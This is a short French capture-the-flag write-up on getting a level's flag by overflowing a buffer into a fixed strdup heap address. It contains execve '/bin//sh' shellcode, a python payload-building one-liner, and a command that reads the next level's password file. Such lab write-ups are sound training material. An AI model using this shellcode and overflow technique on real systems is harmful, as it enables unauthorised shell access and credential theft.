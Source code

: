 comment trouver le flag2

exactement comme le flag1 on a des gets() sauf qu'ils sont protege donc on va passer par la heap avec strdup

on va utiliser le debugger ltrace pour voir les adresses

peu importe la string rentree l'adresse de strdup reste la meme on va donc abuse de cette adresse (0x0804a008)

pour executer "/bin//sh" et ouvrir un nouveau terminal le systeme fait toute ces instructions : \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

on va donc utiliser /bin//sh + le remplir de 59 octets (avec des X) et ainsi executer sur l'adresse de strdup qui est 0x0804a008 : \x08\x04\xa0\x08

python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/overflow

cat /tmp/overflow - | ./level2

cat /home/user/level3/.pass

on a notre flag